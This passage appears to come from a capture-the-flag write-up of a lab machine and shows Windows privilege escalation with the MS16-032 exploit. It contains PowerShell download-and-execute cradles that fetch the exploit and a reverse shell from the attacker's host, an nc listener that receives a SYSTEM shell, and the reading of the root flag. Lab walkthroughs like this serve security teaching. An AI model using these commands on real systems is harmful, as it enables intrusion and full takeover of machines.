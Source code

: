 The exploit-db link above will not work for this kind of scenario, as it
will pop a new window on the box, rather than giving me the ability to
run a command. Luckily, the folks in the Empire project ported a
[version of this
script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1)
to add a command option.

I'll download a copy of that, and add a line at the end to call it with
a command to download and execute my reverse shell:



    Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"



From the 64-bit shell, (and with both a Python web server serving
`rev.ps1` and `nc` listening on 443 to get the shell), I'll use the same
PowerShell cradle to download and execute the exploit:



    PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

    [!] Holy handle leak Batman, we have a SYSTEM shell!!



There's a request right away for `Invoke-MS16032.ps1`. Once that last
message pops, there's another request for `rev.ps1`, and then a shell at
`nc`:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
    whoami
    nt authority\system
    PS C:\Users\kostas\Desktop>



And I can grab `root.txt`:



    PS C:\users\administrator\desktop> type root.txt
    51ed1b36************************







